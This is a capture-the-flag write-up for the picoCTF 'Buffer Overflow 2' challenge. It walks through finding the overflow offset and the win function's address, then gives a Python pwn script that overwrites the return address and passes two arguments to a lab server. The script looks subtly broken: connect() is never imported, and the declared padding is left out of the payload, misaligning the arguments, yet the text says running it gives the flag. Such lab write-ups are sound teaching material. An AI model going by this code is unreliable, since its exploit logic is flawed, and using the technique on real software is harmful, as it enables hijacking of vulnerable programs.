

# Buffer Overflow 2
For this challenge we are given to files: an executable, vuln, and its source in C.</br>
We are also told to control its return address and arguments.</br></br>
Opening the source file, we see the value of the arguments which must be passed to get the flag, 0xCAFEF00D and 0xF00DF00D.<br>
</br>

Running the executable, we are asked for an input and it is returned to us. Providing too much input causes a segmentation fault.</br>


We can use Metasploit and GDB to find out where the buffer overflow occurs.</br>
</br>


We now know it takes 112 characters to cause the buffer overflow.</br>

The next step is to find the memory address of the function we want to jump to, win. Using readelf, we are able to find win at 0x08049296.</br>


Here is a python script that connects to the specified server and port and sends the payload to it.</br>
```
#!/bin/env python3

p = connect('saturn.picoctf.net', 62954)
offset = 112
junk = b'A' * offset              #All strings must be converted to byte format
buf = b'\x08\x04\x92\x96'[::-1]   #Addresses on x86 ( Little Endian) are reversed by byte
pad = b'OEBP'                     #Overwrite return address on EBP (4 bytes)
argument1 = b'\xCA\xFE\xF0\x0D'[::-1]
argument2 = b'\xF0\x0D\xF0\x0D'[::-1]
payload = [junk + buf + argument1 + argument2]
payload = b''.join(payload)
p.sendline(payload)
p.interactive()
```

Running it gives us the flag!</br>

